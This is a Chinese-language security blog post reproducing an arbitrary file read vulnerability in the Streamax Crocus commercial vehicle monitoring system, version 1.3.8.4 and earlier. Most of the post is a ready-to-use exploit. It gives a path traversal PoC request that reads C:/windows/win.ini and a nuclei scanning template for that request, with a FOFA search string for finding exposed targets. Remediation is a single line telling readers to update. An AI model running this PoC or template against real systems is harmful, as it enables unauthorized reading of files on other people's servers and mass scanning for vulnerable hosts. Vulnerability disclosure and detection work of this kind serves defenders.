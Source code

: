 #  【漏洞复现】锐明Crocus系统存在任意文件读取漏洞   
PokerSec  PokerSec   2025-02-05 01:00  
  
**先关注，不迷路，成为你渗透大师路上的王牌.**  
## 免责声明  
  
       请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 漏洞介绍  
  
      深圳市锐明技术股份有限公司锐明技术Crocus系统融合了锐明技术的多项核心技术，如视频图像处理技术、卫星定位、物联网传感器、车载电子工程及无线通讯等，旨在为用户提供系统化、智能化的商用车监控和信息化解决方案。锐明Crocus系统存在任意文件读取漏洞，攻击者可以通过该漏洞绕过应用的文件访问控制，访问到应用根目录之外的文件。  
## 影响范围  
  
 <=1.3.8.4  
## 漏洞复现  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJKZd2WlYFqUUWvbb0oT4zI78AtMzfqW5c4yZTDpSKoqJ62CwgibWnX96vByxomDbyefUTj39DAfauw/640?wx_fmt=png&from=appmsg "")  
  
POC:  
  
(这微信页面直接复制代码格式会乱，可以浏览器打开复制)  
```
/Service.do?Action=Download&Path=C:/windows/win.ini
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJKZd2WlYFqUUWvbb0oT4zI7euDZdXic3QibWHwwdaVPVJSLMGSTSsibeiaKPVictQp1r4lqaDgsgoticX2A/640?wx_fmt=png&from=appmsg "")  
## nuclei脚本  
```
id: streamax-Crocus-download-download

info:
  name: streamax-Crocus-download-download
  author: PokerSec
  severity: high
  metadata:
    fofasearch: body="inp_verification"

http:
  - raw:
      - |
        GET /Service.do?Action=Download&Path=C:/windows/win.ini HTTP/1.1
        Host: {{Hostname}}

    matchers:
      - type: dsl
        dsl:
          - status_code==200 && contains_all(body,"[mci extensions]") && contains_all(body,"[extensions]")
```  
## 修复意见  
  
请及时更新最新版本：https://www.streamax.com/  
  
  
  
如有侵权，请及时联系删除。  
  
  
